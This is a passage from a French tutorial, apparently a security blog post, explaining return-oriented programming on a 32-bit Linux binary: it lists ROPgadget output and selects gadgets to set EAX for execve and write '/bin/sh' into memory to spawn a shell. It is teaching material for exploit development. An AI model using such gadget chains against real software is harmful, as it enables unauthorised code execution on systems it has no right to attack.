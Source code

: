 Cette commande va nous sortir tous les gadgets qui finissent par un RET avec 10 instructions ou moins avant.

En voici un extrait

```sh
[...]
0x0804c47e : xor eax, eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08050815 : xor eax, eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805489f : xor eax, eax ; pop ebx ; pop esi ; ret
0x0805821f : xor eax, eax ; pop ebx ; ret
[...]
Unique gadgets found: 11840
```

Vous voyez qu'on a de quoi faire. 11840 résultats.

Si par exemple nous voulons trouver un `XOR EAX, EAX`

```sh
$ ROPgadget --binary rop | grep "xor eax"
[...]
0x08049323 : xor eax, eax ; ret
```

Parfait. Nous avons notre premier gadget qui nous sera utile.

Je vous rappelle que nous voulons exécuter un shell. Il nous faut alors lancer `sys_execve("/bin/sh", NULL, NULL)`.

D'après la table des appels systèmes [32 bits](https://github.com/Hackndo/misc/blob/master/syscalls32.md), la valeur de `EAX` pour un `execve` est de 11. Maintenant qu'on a un gadget qui initialise `EAX` à zéro, il faut par exemple l'incrémenter.

```sh
$ ROPgadget --binary rop | grep "inc eax"
[...]
0x0804812c : inc eax ; ret
[...]
```

Parfait, so far so good.

Il nous faut ensuite faire en sorte que `EBX` pointe sur la chaine de caractère "/bin/sh", et que `ECX` et `EDX` soient des pointeurs nuls, car nous n'en avons pas besoin.

Pour pointer sur la chaine de caractère "/bin/sh", il faut la placer en mémoire. Pour cela, il faut pouvoir écrire où nous le souhaitons. C'est une suite de gadget assez recherchée en général, et elle a un nom bien précis **Write-what-where**.

En voici un exemple avec les gadgets proposés par le binaire

```sh
0x0806ed1a : pop edx ; ret
0x080b8056 : pop eax ; ret
0x080546db : mov dword ptr [edx], eax ; ret
```

Avec ces trois gadgets, nous contrôlons les contenus des registres `EDX` et `EAX`, puis nous pouvons déplacer le contenu de `EAX` à l'adresse pointée par `EDX`. Nous écrivons donc ce que nous voulons, là où nous le shouaitons. Parfait !
